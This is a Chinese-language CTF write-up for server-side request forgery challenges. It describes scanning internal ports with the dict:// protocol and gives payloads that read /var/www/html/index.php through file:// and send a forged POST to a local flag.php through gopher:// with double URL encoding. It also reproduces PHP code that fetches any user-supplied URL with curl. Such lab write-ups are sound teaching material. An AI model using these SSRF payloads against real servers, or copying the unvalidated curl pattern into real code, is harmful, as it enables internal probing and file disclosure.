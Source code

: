 ------



### 端口扫描

------

题目提示端口在8000-9000，因此直接扫就可以了。这里需要使用dict伪协议来扫描，因为dict协议可以用来探测开放的端口。发现端口是8056.直接进行访问，就可以得到flag了。

------



### POST请求

------

payload: GET: url=127.0.0.1/flag.php，访问flag.php，发现有一个key。

payload: GET: url=file:///var/www/html/index.php，查看网页源代码

```php
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])) {  //判断传进来的url是否为空
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
//初始化新的会话，返回 cURL 句柄，供curl_setopt()、 curl_exec() 和 curl_close() 函数使用。

curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);//设置URL到CURLOPT_URL

curl_setopt($ch, CURLOPT_HEADER, 0);//是否输出头信息到屏幕

curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);//值被设置为1时将会根据服务器返回 HTTP 头中的 "Location: " 来重定向。

curl_exec($ch);// 抓取 URL 并把它传递给浏览器
curl_close($ch);// 关闭 cURL 资源，并且释放系统资源
```

然后，gopher协议要构造的http包：

```
gopher://127.0.0.1:80/_POST /flag.php HTTP/1.1
Host:127.0.0.1
Content-Type:application/x-www-form-urlencoded
Content-Length:（key的长度+4，也就是下面那行的长度）

key=（刚才的key）
```

为解决数据传输过程中的解码问题，因此需要对其进行两次URL转码（注：第一次编码要把%0a都替换成%0d%0a）。
